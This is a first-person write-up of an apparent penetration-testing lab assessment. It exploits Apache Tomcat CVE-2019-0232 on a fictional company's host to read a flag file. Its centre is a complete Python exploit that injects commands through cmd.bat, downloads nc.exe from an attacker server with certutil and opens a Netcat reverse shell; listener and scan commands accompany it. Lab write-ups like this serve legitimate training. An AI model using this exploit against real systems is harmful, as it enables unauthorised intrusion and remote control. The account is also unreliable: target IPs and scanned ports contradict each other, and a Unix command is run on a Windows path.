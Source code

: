 # Penetration Test for Inlanefreight: Attacking Common Applications

## Introduction
Inlanefreight, a company focused on logistics, presents a robust security posture with a well-hardened network. During the penetration test, after performing thorough enumeration, I encountered a host of particular interest that could potentially be leveraged to gain an initial foothold into the network. The goal of this portion of the skills assessment was to identify vulnerable applications running on the target host, exploit any weaknesses found, and gain access to the flag.txt file to complete the challenge.

## Enumerating the Target Host
The first step in any penetration test is to enumerate the target system and identify any potential vulnerabilities or weak points in its security. Given that the network was well-secured, I employed various enumeration techniques to gather information on the target host:

**1. Network Scanning:**
I performed a network scan using tools such as Nmap to identify open ports and services running on the target machine. The goal was to gather information on potential vulnerable applications that could be exploited.
```bash
nmap -sS -T4 -p- 10.129.233.221
```

This Nmap scan revealed several open ports, including ports for HTTP (80), HTTPS (443), and SSH (22). The presence of an HTTP/HTTPS service indicated a web application that could potentially be vulnerable to common web application flaws.

**2. Service Version Detection:**

To gather more specific information about the services running on the target, I performed service version detection to identify the exact versions of the software. This was done using the following Nmap command:
```bash
nmap -sV 10.129.233.221
```
The scan showed that the target was running Apache Tomcat 9.0.0.M1 on port 8080, which is a well-known application server that may have potential vulnerabilities, including the CVE-2019-0232 remote code execution vulnerability.

## Identifying Vulnerable Applications
During the enumeration phase, I focused on identifying any applications or services that might be vulnerable to known exploits. One such service was Apache Tomcat, which was running version 9.0.0.M1. After researching this version, I found that it was vulnerable to CVE-2019-0232, a remote code execution vulnerability in Tomcat's CGI scripts on Windows systems.

This vulnerability can be exploited by sending crafted HTTP requests to the Tomcat server that invoke the cmd.bat script, allowing an attacker to execute arbitrary commands on the server. With this in mind, I began the exploitation process.

Exploiting Apache Tomcat CVE-2019-0232
To exploit the vulnerability in Apache Tomcat, I used a custom Python script that leverages the certutil tool to download and execute Netcat on the target machine. This allows the attacker to obtain a reverse shell and gain control of the system.

Below is the script I used for exploitation:
```bash
#!/usr/bin/env python3
import time
import requests

# Configuration
host = '10.10.10.15'  # Target host
port = '8080'         # Port on which Tomcat is running
server_ip = '10.10.14.64'  # IP of the attacker server hosting nc.exe
server_port = '80'    # Port where nc.exe is hosted
nc_ip = '10.10.14.64' # IP for reverse shell listener
nc_port = '1234'      # Port for reverse shell listener

# Construct the malicious payload URLs
url1 = host + ":" + str(port) + "/cgi/cmd.bat?" + "&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F" + server_ip + ":" + server_port + "%2Fnc%2Eexe+nc.exe"
url2 = host + ":" + str(port) + "/cgi/cmd.bat?&nc.exe+" + server_ip + "+" + nc_port + "+-e+cmd.exe"

# Send requests to exploit the vulnerability
try:
    print("[*] Sending request to download nc.exe...")
    requests.get("http://" + url1)  # Trigger the download of nc.exe using certutil
    time.sleep(2)  # Wait for a short time to ensure the download completes
    print("[*] Sending request to execute reverse shell...")
    requests.get("http://" + url2)  # Execute the reverse shell payload
    print("[+] Reverse shell payload executed successfully.")
except Exception as e:
    print(f"Some error occurred: {str(e)}")
```
**Explanation of the Script:**

**Payload URL 1**: This URL triggers the cmd.bat script on the Tomcat server and uses certutil to download Netcat (nc.exe) from the attacker's server.

**Payload URL 2**: This second URL executes the downloaded Netcat and establishes a reverse shell back to the attacker's machine on port 1234.

## Setting Up the Listener
Before running the exploit script, I set up a Netcat listener on my local machine to receive the reverse shell connection:
```bash
nc -lvnp 1234
```
Once the script successfully executed the reverse shell payload, a connection was established to my listener, granting me access to the target machine.

## Gaining Access and Retrieving the Flag
With the reverse shell established, I was able to navigate the system's file structure. The goal was to find the flag.txt file, which was located on the Administrator's desktop. Using the following command, I accessed the file:
```bash
cat C:\Users\Administrator\Desktop\flag.txt
```
The contents of the `flag.txt` file were successfully retrieved and submitted to complete the assessment.

## Conclusion
This penetration test demonstrated how an attacker could exploit a vulnerability in Apache Tomcat to gain unauthorized access to a system. By identifying the CVE-2019-0232 vulnerability in the target's Tomcat instance, I was able to leverage a custom script to execute arbitrary commands and gain a reverse shell. Once access was obtained, I was able to retrieve the flag.txt file and complete the skills assessment.

The process highlights the importance of keeping web application servers like Apache Tomcat up to date with security patches, as well as securing services from unauthorized access by applying the principle of least privilege and isolating sensitive systems.



